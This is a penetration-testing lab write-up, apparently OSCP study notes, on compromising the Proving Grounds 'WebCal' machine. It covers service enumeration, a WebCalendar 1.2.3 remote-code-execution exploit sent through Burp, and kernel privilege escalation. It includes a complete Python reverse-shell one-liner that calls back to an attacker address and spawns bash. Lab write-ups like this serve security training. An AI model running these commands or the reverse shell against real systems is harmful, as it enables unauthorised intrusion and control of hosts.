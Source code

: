 #### Enumeration

##### Nmap 

```
nmap -Pn -p- -sC -sV 192.168.191.37 -T4 -oN WebCal.nmap
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal%202021-06-24%20213757.png)

##### FTP

```
ftp -p 192.168.191.37 21 
```

Not allow anonymous login.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal%202021-06-24%20233404.png)

##### HTTP

Try to find exploits in the HTTP service first.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal%202021-06-25%20010855.png)

Click the NOTIFY ME button at the bottom right of the webpage. It leads to the send.php page.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal%202021-06-25%20012840.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal%202021-06-25%20013044.png)

Scan directories.

```
feroxbuster -u http://192.168.191.37 -w /usr/share/wordlists/directory-list-2.3-medium.txt
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal%202021-06-25%20010345.png)

Analyze send.php in Burp Suite but I don’t know what it means, so I continue to look for other possibilities.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal_2021.06.25_14h42m26s_002_.png)

##### SMTP

Enumerate user names, nothing special.

```
smtp-user-enum -M RCPT -U /usr/share/wordlists/names.txt -t 192.168.191.37 -m 10 -f user@example.com
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal%202021-06-25%20092925.png)

Go back and scan directories with different dir list. Find the webcalendar.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal_2021.06.25_21h00m22s_006_.png)

Guess the login admin///admin (find in doc) but failed. (hydra with rockyou.txt failed :dizzy_face: )

```
http://<IP>/webcalendar/docs/WebCalendar-SysAdmin.html
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal_2021.06.25_22h38m37s_009_.png)

Look for available vulnerabilities and find a [WebCalendar RCE](https://www.exploit-db.com/exploits/18775), because the server is running version 1.2.3, so it might work.

After reading the description. I plan to use Burp Suite to send the exploit request. Note that the code is written for use in PHP. The escape character backslash in the string must be removed. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal_2021.06.26_14h36m16s_008_.png)

I use the Repeater function to make it easier to test. First, send exploit payload.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal_2021.06.26_14h02m07s_002_.png)

Second, use a simple command to test whether the exploit is successful. Convert `ls` command string into base64 format `bHM=`. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal_2021.06.26_14h37m37s_009_.png)

If you get response code 408 try to set the body encoding.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal_2021.06.26_14h18m42s_005_.png)

Now we can confirm that the exploit works and then try to send the reverse shell command. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal_2021.06.26_14h15m13s_004_.png)

Use the python command below to successfully get the connection. Convert the code to base64 format before sending.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.191",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' 
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal_2021.06.26_16h00m41s_016_.png)

www-data

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal_2021.06.26_14h32m54s_006_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal_2021.06.26_14h34m59s_007_.png)

#### Privilege Escalation

Execute linpeas.sh file to obtain suggestions.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal_2021.06.26_14h45m28s_011_.png)

![imahe](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal_2021.06.26_14h42m51s_010_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal_2021.06.26_14h46m39s_012_.png)

Reviewing the list, I found that the server uses an old version of the Linux kernel.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal_2021.06.26_15h00m12s_013_.png)

After Googling, there is a possible suitable vulnerability "empodipper".

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal_2021.06.26_15h02m29s_014_.png)

The first vulnerability attack method failed.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal_2021.06.26_13h05m22s_001_.png)

Using the second vulnerability attack method to obtain root permission successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/WebCal/WebCal_2021.06.26_15h07m50s_015_.png)
